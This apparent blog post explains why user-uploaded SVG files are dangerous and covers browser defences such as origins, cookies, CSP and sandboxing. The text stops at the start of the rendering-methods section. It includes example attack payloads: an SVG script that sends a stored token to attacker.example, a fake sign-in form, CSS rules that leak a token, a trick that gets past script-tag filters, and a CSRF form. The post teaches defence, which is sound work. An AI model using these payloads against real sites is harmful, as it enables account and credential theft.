









import Note from '../../components/Note.astro';

Most image formats are just data. A PNG or JPEG is a grid of pixels, and the browser decodes it and paints it on the screen. SVG works differently. An SVG file is an XML document that the browser parses into a DOM, and that document can contain JavaScript, links, styles and even HTML forms.

That becomes a security problem as soon as you accept an SVG from someone else, like a logo uploaded to your app. The same file can be a harmless picture in one place and, in another, run code with access to your users’ accounts. What decides it is how you render the file.

This post starts from the basics: what an SVG is made of, which parts of it are dangerous, and the browser security rules you need to reason about it. Then it goes through each way of rendering an SVG, from weakest to strongest, and covers what each one protects you from, what it doesn’t, and the code to set it up.

Throughout, picture an app at `https://app.example.com` where people upload a company logo that appears on their profile. The person uploading might be an attacker, and the person viewing is probably logged in. The goal is to show the logo without letting its author do anything to that viewer. The same thinking applies to any SVG you don’t fully trust, including ones from a third-party API or a CMS half the company can edit.

Browsers differ in the details, especially around process isolation, so check the ones your users rely on.

## What is an SVG?

SVG stands for Scalable Vector Graphics. It’s a text format, based on XML, that describes a picture as a list of shapes. Because the file holds drawing instructions instead of pixels, the browser can redraw it sharply at any size, and a logo can weigh less than a kilobyte.

Here’s a small one you can save as `logo.svg` and open in a browser:

```xml title="logo.svg"
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100" width="100" height="100">
  <title>Acme logo</title>
  <circle cx="50" cy="50" r="40" fill="#4f46e5" />
  <rect x="35" y="35" width="30" height="30" fill="white" />
</svg>
```

Here’s what each part does:

| Part              | What it does                                                                                                                                                 |
| ----------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `<svg>`           | The root element. Everything else sits inside it.                                                                                                            |
| `xmlns`           | The namespace. It declares that these tags are SVG tags, and a standalone file won’t render as SVG without it.                                               |
| `viewBox`         | The drawing’s internal coordinate system, written as `x y width height`. Here the canvas runs from 0 to 100 on both axes and scales to fit its display size. |
| `width`, `height` | The default display size.                                                                                                                                    |
| `<title>`         | A text name for the picture, which screen readers announce.                                                                                                  |
| `<circle>`        | A circle with its centre at `cx`, `cy` and a radius of `r`.                                                                                                  |
| `<rect>`          | A rectangle with its top-left corner at `x`, `y`.                                                                                                            |
| `fill`            | The colour the shape is painted with.                                                                                                                        |

Two more facts matter for security.

First, a server labels the file with the `Content-Type` header `image/svg+xml`. That label is what tells the browser to read the file as SVG.

Second, the browser doesn’t paint the shapes and forget about them. It parses the file into a DOM, the same kind of live tree it builds from HTML, so every shape is an element you can select and change:

```js
document.querySelector('circle').setAttribute('fill', 'tomato');
```

A PNG has nothing like this. Its decoder reads numbers and produces pixels. SVG elements are DOM nodes, so the format also comes with the things DOM nodes can do, including scripts, event handlers, links and styles.

## What makes an SVG dangerous?

Everything in this section is legal, documented SVG. None of it relies on a browser bug.

### The script element

SVG has its own `<script>` element, and it works the way you’d expect:

```xml title="evil.svg"
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100">
  <circle cx="50" cy="50" r="40" fill="#4f46e5" />
  <script>
    fetch('https://attacker.example/collect', {
      method: 'POST',
      mode: 'no-cors',
      body: localStorage.getItem('token'),
    });
  </script>
</svg>
```

The picture looks identical to a harmless logo. The script reads a login token from the browser’s storage and posts it to the attacker’s server. `mode: 'no-cors'` tells the browser to send the request even though the script won’t be able to read the reply, and the attacker doesn’t need a reply because the stolen data is already in the request.

### Event handler attributes

Any attribute that starts with `on` holds JavaScript, so a file can run code without a `<script>` element at all:

```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="alert('the svg loaded')">
  <image href="missing.png" width="1" height="1" onerror="alert('the image failed')" />
  <rect width="10" height="10">
    <animate attributeName="x" to="1" dur="1s" onbegin="alert('the animation started')" />
  </rect>
</svg>
```

`onload` runs when the element finishes loading, `onerror` runs when a resource fails, and `onbegin` runs when an animation starts. All three fire without the viewer doing anything.

### Links that run code

A link with a `javascript:` URL runs code instead of going anywhere:

```xml
<svg xmlns="http://www.w3.org/2000/svg" width="200" height="100">
  <a href="javascript:alert(document.domain)">
    <text x="10" y="40">Click me</text>
  </a>
</svg>
```

`document.domain` holds the hostname the code is running on, which makes it a handy way to see whose context a script has landed in.

### Embedded HTML

`<foreignObject>` lets an SVG hold content from another markup language, usually HTML. It’s meant for things like wrapped text in a diagram, but it also means a “picture” can contain a working form:

```xml
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="200">
  <foreignObject width="400" height="200">
    <form xmlns="http://www.w3.org/1999/xhtml" action="https://attacker.example/collect" method="post">
      <p>Your session has expired. Please sign in again.</p>
      <input name="password" type="password" />
      <button>Sign in</button>
    </form>
  </foreignObject>
</svg>
```

### Remote references

Several SVG features point at another file:

```xml
<image href="https://attacker.example/pixel.png" width="1" height="1" />
<rect width="100" height="100" fill="url(https://attacker.example/paint.svg#p)" />
```

`href` on an `<image>` says where to fetch a picture from, and you’ll also see it written as `xlink:href`, the older form. `url(...)` in an attribute like `fill` points at a gradient or pattern to paint with. That’s normally something inside the same file, like `fill="url(#gradient)"`, where `#gradient` means the element with `id="gradient"`.

When either one points at another server, the browser can make a request, though browsers differ here: Chromium and Firefox both fetch a remote `<image>`, but only Chromium fetched a remote `fill` when I tested it. A request tells the attacker the viewer’s IP address, what browser they use and when they looked at the file.

### Stylesheets

An SVG can contain a `<style>` block. When the SVG is part of your page, that CSS isn’t limited to the graphic. It applies to your entire document:

```xml
<style>
  body {
    display: none;
  }
</style>
```

CSS can also leak data without any JavaScript:

```xml
<style>
  input[name='csrf'][value^='a'] ~ * {
    background: url(https://attacker.example/leak?first-character=a);
  }
</style>
```

`[value^='a']` matches an input whose value starts with `a`, and `~ *` selects the elements after it. If the rule matches, the browser fetches that background image, which tells the attacker the first character of a secret token. With enough rules, the token can be pulled out piece by piece.

### Copies of copies

`<use>` stamps out a copy of another element. It’s a normal feature, and icon sets rely on it:

```xml
<defs>
  <circle id="dot" r="5" />
</defs>
<use href="#dot" x="10" y="10" />
<use href="#dot" x="30" y="10" />
```

`<defs>` holds things that aren’t drawn until something references them. The trouble starts when copies refer to other copies, because the work multiplies at every level. There’s an example later on.

### XML entities

XML has an old macro feature. A file can define a named entity in its `DOCTYPE` and use it later on:

```xml
<!DOCTYPE svg [<!ENTITY company "Acme Corporation">]>
<svg xmlns="http://www.w3.org/2000/svg">
  <text y="20">&company;</text>
</svg>
```

An entity can also point at a file on disk, which becomes a serious problem on servers. That’s covered in [processing SVGs on the server](#processing-svgs-on-the-server).

### Why blocking script tags doesn’t work

XML lets a file choose its own prefix for a namespace, so this is a working script even though the text `<script` never appears in it:

```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <x:script xmlns:x="http://www.w3.org/2000/svg">alert(document.domain)</x:script>
</svg>
```

Add event handlers, `javascript:` links and everything else above, and a filter would have to understand the whole language to catch it all. The dependable approach is to control the context the file runs in, and that takes a few browser concepts.

## The web security ideas you’ll need

The defences later in this post are built from a handful of browser rules. If you’re already comfortable with origins, cookies and CSP, you can skip to [how an SVG can be rendered](#how-can-an-svg-be-rendered).

### Cross-site scripting (XSS)

Cross-site scripting means an attacker gets their JavaScript to run on your site, in your visitor’s browser. To the browser, that script is your code. It can read the page, call your API using the visitor’s session, and change anything the visitor could change.

When the malicious code is saved on your server and shown to other people, it’s called stored XSS. An uploaded SVG is a classic way in.

### Origins and the same-origin policy

An origin is the combination of a URL’s scheme, host and port:

```text
https :// app.example.com : 443
scheme    host              port
```

If the port is left out, browsers assume 443 for `https` and 80 for `http`.

The most important rule on the web is the same-origin policy: code from one origin can’t read data belonging to another. A script running on a different origin gets stopped like this:

```js
// Running on https://usercontent.example.com
frame.contentWindow.document.title; // SecurityError: that frame is on another origin
await fetch('https://app.example.com/api/me'); // TypeError: the response can't be read
```

Each origin also gets its own `localStorage` and IndexedDB. Notice that the `fetch` above is still sent. The policy only stops the script from reading the answer, which becomes important when we get to request forgery.

Code runs with the origin of the document that holds it, and a document’s origin comes from its URL. So an SVG opened from `https://app.example.com/uploads/evil.svg` runs as `https://app.example.com`. That one fact is the reason most of this post exists.

### Sites and registrable domains

A site is broader than an origin. It’s the scheme plus the registrable domain, which is the part of a hostname you’d actually buy from a registrar, like `example.com` or `example.co.uk`.

Browsers know `co.uk` can’t be registered by one company because they ship with the [Public Suffix List](https://publicsuffix.org/). The list also includes platforms like `github.io`, so `alice.github.io` and `bob.github.io` count as different sites.

| URL A                     | URL B                             | Same origin? | Same site? | Why                               |
| ------------------------- | --------------------------------- | ------------ | ---------- | --------------------------------- |
| `https://app.example.com` | `https://app.example.com/billing` | Yes          | Yes        | Only the path differs             |
| `https://app.example.com` | `https://app.example.com:8443`    | No           | Yes        | The port differs                  |
| `https://app.example.com` | `https://usercontent.example.com` | No           | Yes        | Same registrable domain           |
| `https://app.example.com` | `http://app.example.com`          | No           | No         | The scheme differs                |
| `https://app.example.com` | `https://example-usercontent.net` | No           | No         | Different registrable domains     |
| `https://alice.github.io` | `https://bob.github.io`           | No           | No         | `github.io` is on the suffix list |

The same-origin policy works on origins, while `SameSite` cookies and Chromium’s process isolation work on sites. That’s why a subdomain and a separate domain give you such different protection.

### Cookies and their attributes

A server sets a cookie with a response header, and each attribute after the value limits where the cookie goes:

```http
Set-Cookie: session=abc123; Path=/; Domain=example.com; Secure; HttpOnly; SameSite=Lax
```

| Attribute  | What it controls                         | Details                                                                                                                                             |
| ---------- | ---------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Domain`   | Which hosts receive the cookie           | With `Domain=example.com`, every subdomain gets it. With no `Domain`, only the exact host that set it does.                                         |
| `Path`     | Which URL paths receive it               | `Path=/` covers the whole host.                                                                                                                     |
| `Secure`   | Whether it’s limited to HTTPS            | The browser won’t send it over plain HTTP.                                                                                                          |
| `HttpOnly` | Whether JavaScript can see it            | It’s left out of `document.cookie` but still sent with requests.                                                                                    |
| `SameSite` | Whether requests from other sites get it | `Strict` means only requests from the same site. `Lax` also allows someone following a link to you. `None` allows everything and requires `Secure`. |

There’s one more tool. A cookie whose name starts with [`__Host-`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie) is rejected unless it has `Secure`, `Path=/` and no `Domain`. That pins it to the exact host that set it:

```http
Set-Cookie: __Host-session=abc123; Path=/; Secure; HttpOnly; SameSite=Lax
```

### Cross-site request forgery (CSRF)

Browsers attach cookies to requests automatically. CSRF abuses that by getting a victim’s browser to send a request they never meant to send:

```html title="A page on the attacker’s site"
<form action="https://app.example.com/api/transfer" method="post">
  <input type="hidden" name="amount" value="1000" />
</form>
<script>
  document.forms[0].submit();
</script>
```



The attacker never sees the response and doesn’t need to. `SameSite` is the browser’s main defence, because the cookie gets left off requests that come from another site. CSRF tokens are the classic server-side defence: a secret value the app puts in its own forms, which an attacker’s page can’t know.

Requests from script have one extra rule. A form-style POST goes straight out, but a request like `Content-Type: application/json` makes the browser ask permission first with an `OPTIONS` request, called a preflight, and it stops if the server doesn’t agree.

### Content Security Policy

A Content Security Policy (CSP) is a response header that tells the browser what a document is allowed to load and run. It’s a list of directives separated by semicolons:

```http
Content-Security-Policy: default-src 'none'; style-src 'unsafe-inline'; sandbox
```

Reading that one piece by piece:

| Directive                   | What it means                                                                                     |
| --------------------------- | ------------------------------------------------------------------------------------------------- |
| `default-src 'none'`        | The fallback for scripts, images, fonts, `fetch` and so on. `'none'` means nothing is allowed.    |
| `style-src 'unsafe-inline'` | An exception for CSS, allowing styles written inside the file. Remote stylesheets remain blocked. |
| `sandbox`                   | Runs the document in a sandbox, explained in the next section.                                    |

The directives you’ll see in this post:

| Directive         | What it controls                                             |
| ----------------- | ------------------------------------------------------------ |
| `default-src`     | The fallback for any resource type without its own directive |
| `script-src`      | JavaScript, including inline `<script>` and `on*` attributes |
| `style-src`       | CSS                                                          |
| `object-src`      | `<object>` and `<embed>`                                     |
| `base-uri`        | What a `<base>` tag can set                                  |
| `frame-ancestors` | Which pages may embed this document in a frame               |
| `sandbox`         | Restricts the document, as described below                   |

Each one takes a list of sources, and these are the common values:

| Value                     | Meaning                                 |
| ------------------------- | --------------------------------------- |
| `'none'`                  | Nothing at all                          |
| `'self'`                  | The document’s own origin               |
| `https://cdn.example.com` | That specific host                      |
| `'unsafe-inline'`         | Code written inside the document itself |

`frame-ancestors`, `base-uri` and `sandbox` don’t fall back to `default-src`, so you have to set them explicitly.

<Note>a CSP applies to the document it arrives with. When an `` loads a file, the file isn’t a page in its own right, so the header has nothing to act on and the picture displays normally. If someone opens that same file as a page, the policy applies. That’s what makes it safe to put on images.</Note>

### Sandboxing and opaque origins

Sandboxing runs a document in a restricted mode. You can ask for it in two places:

```html
<!-- Set by the page doing the embedding -->
<iframe src="/uploads/logo.svg" sandbox></iframe>
```

```http
Content-Security-Policy: sandbox
```

The attribute only applies when your page embeds the file in that frame. The CSP directive is sent with the file and applies however the file gets opened, which makes it the better fit for uploads.

A sandboxed document gets an opaque origin, a throwaway origin that matches nothing, not even another sandboxed document. Its origin shows up as the string `null`. Since it matches nothing, the document can’t get at any cookies, storage or other pages:

```js
// Inside a sandboxed document
self.origin; // "null"
document.cookie; // SecurityError
localStorage.length; // SecurityError
parent.document; // SecurityError
```

A bare `sandbox` turns everything off, and tokens switch individual things back on:

| Token                  | What it switches back on                   |
| ---------------------- | ------------------------------------------ |
| `allow-scripts`        | Running JavaScript, still in opaque origin |
| `allow-same-origin`    | Keeping the document’s real origin         |
| `allow-forms`          | Submitting forms                           |
| `allow-popups`         | Opening new windows                        |
| `allow-top-navigation` | Changing the URL of the whole tab          |

Two things to remember. A sandbox doesn’t block network requests, so a sandboxed file can still load a remote tracking image. That’s why it’s paired with `default-src 'none'`. And never use `allow-scripts` together with `allow-same-origin` on a frame from your own origin, because the frame keeps your origin and can reach straight into the parent page:

```js
// Inside <iframe sandbox="allow-scripts allow-same-origin"> on your origin
parent.document.title; // Works, so the sandbox protects nothing
```

### Other headers that change how a file is treated

| Header                         | What it does                                                                                            | Example                                                                              |
| ------------------------------ | ------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------ |
| `Content-Type`                 | Says what kind of file this is.                                                                         | The same SVG served as `text/html` goes through the HTML parser and its scripts run. |
| `X-Content-Type-Options`       | With `nosniff`, tells the browser to trust `Content-Type` instead of guessing from the file’s contents. | A file served as `text/plain` stays plain text.                                      |
| `Content-Disposition`          | Says whether a file opened as a page is displayed (`inline`) or downloaded (`attachment`).              | With `attachment`, opening the URL saves the file.                                   |
| `Cross-Origin-Resource-Policy` | Says which pages may embed the file, with `same-origin`, `same-site` or `cross-origin`.                 | With `same-origin`, another site’s `` is blocked.                               |
| `Referrer-Policy`              | Says how much of the current URL is shared in the `Referer` header on outgoing requests.                | `no-referrer` shares nothing.                                                        |

The resource policy is easy to mix up with CORS. CORS grants other origins permission to read a response with `fetch`. `Cross-Origin-Resource-Policy` takes away permission to embed one.

## How can an SVG be rendered?

There are more ways than most people expect, but they fall into three groups based on what the browser lets the file do.



### Inline in your HTML

The `<svg>` markup sits directly in the page:

```html
<header class="icon">
  <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100">
    <circle cx="50" cy="50" r="40" />
  </svg>
</header>
```

